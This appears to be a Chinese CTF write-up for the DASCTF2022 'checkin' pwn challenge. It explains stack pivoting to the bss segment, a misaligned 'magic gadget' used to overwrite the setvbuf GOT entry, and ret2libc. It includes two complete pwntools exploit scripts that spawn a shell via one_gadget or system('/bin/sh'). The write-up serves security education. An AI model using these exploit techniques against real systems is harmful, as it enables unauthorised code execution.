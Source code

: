```yaml
---
title: DASCTF2022_checkin
tags:
 - 栈迁移
 - PWN
 - magic gadget
---
```

## 总结：

通过这道题的学习和收获有：

1、栈迁移，何为栈？本来栈的定义就是rsp指针与rbp指针之间的就是栈。rsp在哪栈就在哪，因此两次leave，栈就变了两次，而真正跳到变化的栈那步是在最后的ret执行的。也算是对栈迁移又有了一点新的理解。

2、利用magic gadget修改got表

3、这道题的核心考察的就是栈迁移以及payload布局。

4、取magic gadget中的ebx时，如果ebx的值为正，则直接取，如果为负，则加0x100000000取补码。

5、如果可以的话，迁移到bss段尽量迁移到地址高一点的地方。这次打远程的那个exp就是因为bss段迁移的太低了，因为是破坏了某些数据，导致最后执行system函数的时候卡住了。
<!--more-->

## 保护策略：

![image-20220411121501353](/upload/img/image-20220411121501353.png)

## 大致思路：


![image-20220411121504338](/upload/img/image-20220411121504338.png)



可以发现，这道题就一个输入函数，没有输出函数，不过这个read具有16字节的溢出。这个没什么好想的，直接就栈迁移了。

然后输出函数也没有，泄露栈基地址这种情况就排除了，那就只能迁移到bss段。

先考虑一点，溢出16个字节仅仅只能去迁移，我们似乎没有办法去bss段布置数据。不过观察了一下汇编代码，发现read函数的第二个参数是由rbp确定的。

![image-20220411121508220](/upload/img/image-20220411121508220.png)



而我们可以利用溢出来控制rbp，因此就相当于可以控制read的输入的地方了，控制完rbp的话，只能在控制一个返回地址，既然控制rbp就已经相当于控制rsi了，那就返回0x4011BF再读一次（此时的read输入的地址已经是bss段了）。**选取往bss段输入的内容，一定要把地址抬高，我最开始选择的是往0x404100这里写入数据再迁移，到了最后执行system的过程中给卡死了**



read结束之后，又到了leave;ret指令。**leave指令就是mov rsp;rbp  pop rbp**；

执行leave指令的时候，我们的rbp是什么？是我们要控制read函数的rsi来设定的rbp（它现在是bss段地址）

我还是用实际的数据来举例一下吧。假设我第一次控制rbp为（0x404600+0xa0），那rsi的值就是0x404600（因为buf为-0xa0）（即我们输入的数据是从0x404600处开始输入的）我们可以输入0xB0个数据，因此在0x404600+0xa0这个地方写入0x404600。

此时执行read结束后的leave指令是什么情况？（如下图）

![image-20220411121513742](/upload/img/image-20220411121513742.png)

![image-20220411121517837](/upload/img/image-20220411121517837.png)

![image-20220411121521819](/upload/img/image-20220411121521819.png)

![image-20220411121525688](/upload/img/image-20220411121525688.png)

总结一下上面的过程，**原本read读入完我们的数据，<font color=#FF0000 >rbp指向的才是我们想跳转的地方（并非rbp本身）</font>而rbp本身距离我们想跳转的还有0xa0个字节，不过至少rbp就在bss段，执行了第一次leave之后，<font color=#FF0000 >rsp也就变成了rbp的值（同时由于pop rbp，此时的rbp又变成了rbp当初所指向的内容）</font>，此时已经迁移到bss段了（只不过我们还要再迁移到我们布置的数据那里）因此再来一次leave（这个是第二次read输入过去的），由于leave里的mov rsp,rbp，rsp再次被改变，最后完成了迁移（迁移到了我们布置在bss段里的数据）**



至此的话，大体框架就已经完成了。

**剩下的就是在bss段中布局payload了，本地的话非常简单，用magic gadget去将setvbuf函数地址修改为one_gadget地址，然后调用一下setvbuf就完事了。远程的话，roderick师傅给我说，因为动态库的原因，one_gadget用不了，因此只能把setvbuf改成puts函数，然后再劫持程序执行流，完成ret2libc。**

这里先简单说一下magic gadget吧，用ROPgadget --binary checkin --opcode 015dc3  去搜这个gadget的地址。015dc3是这个gadget的机器码（IDA里是看不见的，因为这个是机器码错位得到的）。

这个gadget长这样：

```assembly
add    DWORD PTR [rbp-0x3d], ebx
nop    DWORD PTR [eax+eax*1+0x0]
repz ret
```

核心是在第一行的add上，我们可以利用ret2csu控制rbp和rbx，由此就可以用这个修改函数的got表。以这道题为例，我现在想将setvbuf的真实地址改成one_gadget地址，只需要将rbp-0x3d写成setvbuf的got地址，将ebx放成setvbuf和one_gadget二者在libc库中的偏移即可。再调用这个one_gadget，即可完成修改got表。

这个magic gadget威力还是很大的，如果上述过程不懂的可以再好好想一下或者google一下。（之所以这里不想再详细讲了，是因为我在另一篇文章中详细写了这个东西，只不过因为一些原因那篇文章暂时不能发，这里用到了就简单提一下吧）

一句话概括本题思路，利用栈迁移到bss段，调试布置payload，利用magic gadget修改setvbuf got表为打印函数，最后ret2libc即可。

## exp:

这是打本地的，用的one_gadget。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./ab')
e=ELF('./ab')
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404100+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
#gdb.attach(p)
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(0x8905c)#这个0x8905c为setvbuf和one_gadget二者地址在libc库中的差值
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(setvbuf_plt_addr)
payload=payload.ljust(160,'b')
payload+=p64(0x404100)+p64(leave_ret_addr)
p.send(payload)
p.interactive()
```



比赛结束，远程的环境关闭了，不过roderick师傅远程打通了，我按照他这个思路写的，动态库换成比赛给的2.31，然后改成remote，远程也是ok的。

```python
#coding:utf-8
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
p=process('./checkin')
#p=remote('node4.buuoj.cn',27544)
e=ELF('./checkin')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_off=libc.sym['puts']
setvbuf_off=libc.sym['setvbuf']
print(hex(puts_off))
print(hex(setvbuf_off))
pop_rbp_addr=0x40113d
read_got_addr=e.got['read']
setvbuf_got_addr=e.got['setvbuf']
setvbuf_plt_addr=0x401064
bss_addr=0x404600+0xa0
leave_ret_addr=0x4011e2
read_addr=0x4011bf
magic_gadget=0x40113c
csu1=0x40124A
pop_rdi_ret=0x401253
ret_addr=0x40101a
#gdb.attach(p)
if puts_off>setvbuf_off:
    offset=puts_off-setvbuf_off
else:
    offset=puts_off-setvbuf_off+0x100000000

print(hex(offset))
payload=160*'a'+p64(bss_addr)+p64(read_addr)
p.send(payload)
payload=p64(0xdeadbeef)+p64(csu1)+p64(offset)#rbx
payload+=p64(setvbuf_got_addr+0x3d)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(0)
payload+=p64(magic_gadget)
payload+=p64(pop_rdi_ret)
payload+=p64(read_got_addr)
payload+=p64(setvbuf_plt_addr)
payload+=p64(pop_rbp_addr)#让rbp去指向0x404600（但是rbp本身是0x4046a0)，这样read结束之后触发了第一次leave，就让rsp的值为0x4046a8（这个地址指向的就是leave;ret）（此时rbp由于pop rbp，自身的值变成了0x404600），然后到ret，再次执行了leave;ret
#第二次leave，rsp才算变成了0x404608，然后ret实现了转移至布置到的system处。
payload+=p64(0x404600+0xa0)
payload+=p64(0x4011BF)
payload=payload.ljust(160,'b')
payload+=p64(0x404600)+p64(leave_ret_addr)
p.send(payload)
read_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print(hex(read_addr))
libc_base=read_addr-libc.sym['read']
print(hex(libc_base))
sys_addr=libc_base+libc.sym['system']
bin_sh_addr=libc_base+libc.search('/bin/sh').next()
payload=p64(0xdeadbeef)
payload+=p64(ret_addr)#这道题需要栈对齐，具体细节我的另一篇博客上有讲。
payload+=p64(pop_rdi_ret)
payload+=p64(bin_sh_addr)
payload+=p64(sys_addr)
payload+=p64(0xdeadbeef)
sleep(0.2)
p.send(payload)
p.interactive()
```

如果不太理解exp为什么这样写，就多调试N遍（我光调试这远程一个脚本从写到各种调试再到打通再到彻底理解，调试了73遍...)，总会有所收获的。
本人就一菜狗，如果写的有错误的地方，欢迎指正
